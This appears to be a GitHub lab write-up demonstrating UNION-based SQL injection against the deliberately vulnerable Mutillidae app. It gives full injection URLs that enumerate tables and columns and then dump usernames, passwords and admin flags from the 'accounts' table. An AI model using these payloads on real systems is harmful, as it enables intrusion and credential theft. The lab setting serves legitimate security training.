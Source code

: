 

![Screenshot 2023-06-10 225314](https://github.com/praveenst13/sqlinjection/assets/118787793/78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2023-06-10 225407](https://github.com/praveenst13/sqlinjection/assets/118787793/68ccd33b-a98d-4ff6-8c19-57e63c2724d0)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.




![Screenshot 2023-06-10 225659](https://github.com/praveenst13/sqlinjection/assets/118787793/c820f87a-30cb-485b-b423-f6fd0e67c96e)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![Screenshot 2023-06-10 225659](https://github.com/praveenst13/sqlinjection/assets/118787793/c820f87a-30cb-485b-b423-f6fd0e67c96e)





Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2023-06-10 225759](https://github.com/praveenst13/sqlinjection/assets/118787793/f7dd79fb-c11c-41f3-8019-06685e9cd759)

